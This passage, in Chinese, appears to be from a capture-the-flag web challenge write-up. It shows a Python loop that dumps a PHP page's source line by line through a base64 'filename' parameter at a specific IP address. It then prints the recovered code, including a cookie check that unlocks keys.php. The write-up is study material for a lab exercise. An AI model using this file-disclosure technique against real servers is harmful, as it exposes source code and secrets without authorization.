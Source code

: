 ![在这里插入图片描述](img/3954c91157ecd692ee79aec146d5e310.png)
解码得到`keys.txt`，说明当前访问的是`keys.txt`文件，那按照这样的格式把`index.php`也转换成base64编码格式查看源码。
![在这里插入图片描述](img/86d9524fee69adcfa787f014295a43af.png)
发现改变line的值会出现一段PHP语句，写一个简单的脚本把所有的代码跑出来

```
import requests

a=20

for i in range(a):
    url="http://123.206.87.240:8002/web11/index.php?line="+str(i)+"&filename=aW5kZXgucGhw" 
    s=requests.get(url)
    print (s.text) 
```

结果:

```
<?php
error_reporting(0);
$file=base64_decode(isset($_GET['filename'])?$_GET['filename']:"");
$line=isset($_GET['line'])?intval($_GET['line']):0;
if($file=='') header("location:index.php?line=&filename=a2V5cy50eHQ=");

$file_list = array(
'0' =>'keys.txt',
'1' =>'index.php',
);
if(isset($_COOKIE['margin']) && $_COOKIE['margin']=='margin'){
$file_list[2]='keys.php';
}
if(in_array($file, $file_list)){
$fa = file($file);
echo $fa[$line];
```